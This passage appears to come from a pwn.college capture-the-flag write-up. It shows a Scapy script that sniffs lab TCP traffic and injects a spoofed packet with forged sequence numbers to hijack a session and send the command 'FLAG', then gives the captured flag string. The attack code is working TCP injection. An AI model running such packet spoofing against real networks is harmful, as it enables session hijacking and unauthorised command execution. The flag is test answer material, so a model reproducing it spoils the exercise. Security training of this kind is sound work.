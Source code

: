 ```
    'ipdst': '',
    'ipsrc': '',
    'ipflags': '',
    'sport': 0,
    'dport': 31337,
    'flags': '',
    'seq': 0,
    'ack': 0
}

def CallBack(packet):
    if packet.haslayer('TCP'):
        tcp = packet['TCP']
        ip = packet['IP']
        ether = packet['Ethernet']
        load = tcp.load if hasattr(tcp, 'load') else b''

        if ip.src == '10.0.0.4' and load != b'ECHO\n':
            packet_data['key'] = load


        if ip.src == '10.0.0.3' and load == b'COMMANDS:\nECHO\nFLAG\nCOMMAND:\n':
            print("WARNING!!")

            packet_data.update({
                'ipdst': ip.src,
                'ipsrc': ip.dst,
                'flags': 'PA',
                'ipflags': ip.flags,
                'dst': ether.src,
                'src': ether.dst,
                'dport': tcp.sport,
                'sport': tcp.dport,
                'seq': tcp.ack,
                'ack': tcp.seq + 29
            })

            raw_pkt = Raw(load='FLAG\n')
            (Ether(src=packet_data['src'], dst=packet_data['dst']) /
             IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
             TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
             raw_pkt).display()

            sendp(Ether(src=packet_data['src'], dst=packet_data['dst']) /
                  IP(src=packet_data['ipsrc'], dst=packet_data['ipdst'], flags=packet_data['ipflags']) /
                  TCP(dport=packet_data['dport'], sport=packet_data['sport'], seq=packet_data['seq'], ack=packet_data['ack'], flags=packet_data['flags']) /
                  raw_pkt, iface="eth0")

sniff(filter="tcp", prn=CallBack, iface='eth0', count=100)


```
然后顺利拿到flag
```
pwn.college{A3pb7kfH8On2sOV2_hSlPGWG_P8.dJzNzMDL2QjMyMzW}
```
